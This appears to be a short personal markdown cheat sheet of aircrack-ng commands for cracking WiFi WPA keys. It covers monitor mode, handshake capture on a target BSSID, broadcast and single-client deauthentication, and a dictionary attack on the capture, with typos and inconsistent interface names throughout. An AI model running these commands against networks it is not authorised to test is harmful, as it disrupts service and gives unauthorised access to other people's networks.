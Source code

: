 # Aircrack comand

[Turotial 1](https://www.shellhacks.com/how-to-use-aircrack-ng-wifi-password-hacker-tutorial/)
[Tutorial 2](https://www.aircrack-ng.org/doku.php?id=newbie_guide)
[Airodump-ng Record Understandin Values](https://www.aircrack-ng.org/~~V:/doku.php?id=airodump-ng)

See available wireless network interface to use

```airmon-ng```
Config wireless interface in mod monitor

```airmon-ng start wlan0mon```

Capture network info

```airodump-ng wlan0mon``` 

Capture networks info specifiying the chanel and de BSSID, (Also save the handshake in file id record)

```airodump-ng -c6 --bssid [MAC-addres] --write WPAPRueba  wlan0```

Record and write results to csv format

```airodump-ng wlan0 -w wlan_0 --output-format csv```

Deautenticate in mode in broadcast

```aireplay-ng --deauth 100 -a [bssid] wlan0```

Deauthenticate a concret client

```aireplay-ng -0 1 -a [bssid] -c [MAC-addres]  wlan0```

Decrypt key

```aircrack-ng -w password.lst -b [MAC-addres] psk*.cap```


